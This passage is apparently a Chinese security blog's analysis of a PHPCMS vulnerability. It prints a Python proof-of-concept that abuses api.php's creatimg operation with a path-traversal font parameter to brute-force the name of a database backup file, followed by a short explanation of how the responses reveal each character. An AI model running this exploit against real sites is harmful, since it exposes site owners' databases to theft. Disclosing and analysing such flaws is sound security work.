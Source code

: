 	
	def guest(target):
	    arr = []
	    num = map(chr, range(48, 58))  # num [0-9]
	    alpha = map(chr, range(97, 123))  # alpha [a-z]
	    exploit = '%s/api.php?op=creatimg&txt=dysec&font=/../../../../caches/bakup/default/%s%s<<.sql'
	
	    while True:
	        for char in num:
	            if check(exploit % (target, ''.join(arr), char)):
	                a = exploit % (target, ''.join(arr), char)
	                print a
	                arr.append(char)  #首先arr是空
	                print "".join(arr)
	                continue
	
	        if len(arr) < 20:
	            for char in alpha:
	                if check(exploit % (target, ''.join(arr), char)):
	                    a = exploit % (target, ''.join(arr), char)
	                    print a
	                    arr.append(char)
	                    print "".join(arr)
	
	                    continue
	
	        elif len(arr) == 20:  # 达到20个字母和数字的时候，添加固定的_db_
	            arr.append('_db_')
	
	        elif len(arr) == 29:
	            print arr
	            print len(arr)
	            arr.append('_1.sql')
	
	            break
	        if len(arr) < 1:
	            print '[*] not find!'
	            return
	
	    print  '[*]find: %s/caches/bakup/default/%s' % (target, ''.join(arr))
	
	
	if __name__ == "__main__":
	    url = "http://127.0.0.1:8000/phpcms6"
	    guest(url)




将其中的执行流程分析一下。通过访问`url`的返回结果来判断是否存在该文件。如果返回结果里面包含`Cannot Initialize new GD image stream`，则不存在这个备份文件。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-3-15/44515029.jpg)


`POC`执行过程。

第一位先猜测数字从`1-9`，如果不是，则字母从`a-z`开始，一次次的循环数字和字母进行猜测。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-3-15/47775715.jpg)
